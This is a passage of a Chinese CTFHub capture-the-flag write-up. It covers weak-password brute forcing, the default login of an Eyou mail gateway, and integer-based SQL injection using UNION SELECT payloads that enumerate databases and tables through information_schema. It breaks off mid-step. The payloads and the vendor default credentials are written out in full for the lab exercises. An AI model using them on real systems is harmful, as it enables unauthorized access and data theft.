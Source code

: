 自己爆破为`admin`、`admin123`：`ctfhub{dfd045f39f9157c8bd962fe5}`，payload设置如下：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641698136525-dee46ed2-a6af-45e9-a9d4-5b0b9c7a2d06.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641698154961-1228ff2c-4314-4e36-907c-195fe2d8e2fc.png)

## 默认口令
开环境：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641698403807-ec6e10d1-d527-4fd0-8bdb-7e0bd66034b9.png)

上百度直接搜“亿邮邮件网关默认账号密码”:

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641698595963-190a027b-6c89-4905-9f2d-ccb4d430e169.png)

账号密码为：`eyougw`、`admin@(eyou)`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641698876025-74337d01-8375-453a-8309-677630084b11.png)

`ctfhub{e30800ddcae5f7ebd6511058}`

# SQL注入
## 整数型注入
![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641798467892-c00f7753-bc98-45a5-8327-665f4e05a858.png)

> 注意这道题报错没有回显
>

查询当前的表中有几个字段：`?id=-1 union order by 3`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641798940256-c005c04c-c73b-4e23-a669-93ee13d85e53.png)

没有回显，说明有两个字段，查询表中的字段分别是什么和其具体位置：`?id=-1 union select 1,2`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641798725520-c3714e4f-815f-42fa-a0aa-c5437a307ac4.png)

查询用户的数据库当前在的数据库和用户：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641799084530-3535f9e0-bad8-4ac2-9c60-73bc1f8563b1.png)

查询所有数据库名称：`?id=-1 union select 1,group_concat(schema_name) from information_schema.schemata`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641799473103-e6ade706-55b4-408f-b191-62b39fa6b14e.png)

查询sqli数据库中的所有表:`?id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' `

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641799686590-115b07ae-56a4-49b5-8613-e65123ba2628.png)

获取flag表中的所有字段：
